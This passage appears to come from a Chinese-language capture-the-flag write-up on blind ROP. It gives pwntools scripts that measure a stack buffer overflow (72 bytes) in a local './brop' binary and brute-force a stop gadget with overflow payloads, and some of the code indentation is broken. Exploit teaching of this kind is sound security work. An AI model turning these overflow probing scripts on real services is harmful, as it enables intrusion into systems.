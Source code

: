 ```plain
                return i - 1
            else:
                i += 1
        # 栈溢出
        except EOFError:
            p.close()
            print 'Buffer flow length:%d'%(i-1)
            return i - 1

buffer_length = GetBufferLength()
#print buffer_length
```

```plain
[+] Starting local process './brop': pid 45215
[*] Stopped process './brop' (pid 45215)
72
```

缓冲区溢出长度为72

3、寻找能够返回main函数的gatgets，即stop\_gatget

```plain
#-*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level = 'debug'
#context.arch = 'i386'/'amd64'

##buffer_length = GetBufferLength()
buffer_length = 72

def GetStopAddr(length):
        address = 0x400500
        while 1:
                print(hex(address))
                try:
                        p = process('./brop')
                        p.recvuntil('Do you know password?\n')
                        payload = 'a'*length + p64(address)
                        p.send(payload)
                        output = p.recv()
                        p.close()
                        #未成功返回到main函数头部开始执行
                        if not output.startswith('WelCome my friend'):
                                address += 1
                        else:
                            print('stop gadgets = 0x%x' % address)
                                return address
                #触发栈溢出异常
                except EOFError:
                        address += 1
                        p.close()

stop_gadget = GetStopAddr(buffer_length)
```
